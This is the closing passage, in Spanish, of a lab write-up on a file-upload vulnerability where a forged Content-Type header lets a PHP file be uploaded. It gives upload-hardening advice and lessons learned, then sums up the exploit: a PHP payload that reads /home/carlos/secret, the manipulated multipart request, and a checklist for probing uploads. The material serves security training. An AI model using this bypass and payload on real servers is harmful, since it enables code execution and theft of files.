```text
b4f8a91c-9b25-4a9a-93fd-1c2a7c9b8f03.png
```

### 32.6. Guardar fuera del webroot

Si es posible, guardar uploads fuera de la ruta pública y servirlos mediante un controlador que no ejecute código.

### 32.7. Desactivar ejecución en el directorio de uploads

En Apache, se puede configurar el directorio de uploads para no ejecutar PHP.

Conceptualmente:

```apache
<Directory /var/www/uploads>
    php_admin_flag engine off
    Options -ExecCGI
</Directory>
```

La sintaxis exacta depende de la configuración, pero la idea es clara: en uploads, ningún archivo debe ejecutarse como código.

### 32.8. Usar almacenamiento separado

Guardar imágenes en almacenamiento de objetos tipo S3 o similar, servido desde un dominio separado, también reduce el impacto.

### 32.9. Limitar permisos del proceso web

El usuario del servidor web no debería poder leer archivos sensibles de otros usuarios como `/home/carlos/secret`.

En el lab puede hacerlo para demostrar impacto. En producción, los permisos de sistema deberían minimizar el daño.

---

## 33. Qué aprendizaje deja este lab

La lección principal es:

```text
No valides archivos basándote en información enviada por el cliente.
```

La segunda lección es:

```text
Una carpeta de uploads nunca debería ejecutar código.
```

Y la tercera:

```text
Un upload inseguro puede pasar de “subida de archivo” a RCE si el servidor interpreta el archivo subido.
```

Este laboratorio no va de “Content-Type” únicamente. Va de cómo una defensa superficial puede romperse cuando distintas partes del sistema confían en criterios distintos:

```text
Aplicación: acepta porque dice image/png
Apache/PHP: ejecuta porque se llama shell.php
```

Ahí está el fallo real.

---

## 34. Resumen final del exploit

Payload PHP:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Parte multipart manipulada:

```http
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: image/png

<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Ruta de ejecución:

```text
/files/avatars/shell.php
```

Secreto obtenido:

```text
Xh8Ez1wRmmL7f5xp4Vsmsn5216AlYHAz
```

Resultado:

```text
Laboratorio resuelto
```

---

## 35. Checklist mental para futuros labs de file upload

Cuando veas una subida de archivos, piensa en este orden:

```text
1. ¿Dónde está el endpoint de upload?
2. ¿Usa multipart/form-data?
3. ¿Qué campos acompañan al archivo?
4. ¿Hay CSRF?
5. ¿Qué extensión se permite?
6. ¿Qué Content-Type se permite?
7. ¿El Content-Type es manipulable?
8. ¿Se comprueban magic bytes?
9. ¿Se puede subir .php?
10. ¿Se puede usar doble extensión?
11. ¿Se renombra el archivo?
12. ¿Dónde queda guardado?
13. ¿Se puede acceder por URL?
14. ¿El servidor ejecuta el archivo?
15. ¿Qué usuario ejecuta el proceso web?
16. ¿Qué archivos puede leer ese usuario?
```

En este lab, las respuestas clave fueron:

```text
Content-Type manipulable: sí
Extensión .php permitida: sí
Ruta pública: sí
Ejecución PHP: sí
Impacto: lectura de /home/carlos/secret
```

---

## 36. Cierre

Este laboratorio demuestra una vulnerabilidad muy realista: una aplicación que intenta aceptar solo imágenes, pero se equivoca al confiar en el `Content-Type` enviado por el cliente.

El bypass es simple:

```text
Archivo real: shell.php
Contenido real: PHP
Content-Type falso: image/png
```

La aplicación acepta el archivo, Apache lo ejecuta, y el atacante obtiene lectura de archivos del servidor.

La defensa correcta no es “mirar mejor el Content-Type”. La defensa correcta es combinar validación real, renombrado, almacenamiento seguro y, sobre todo, impedir ejecución dentro del directorio de uploads.

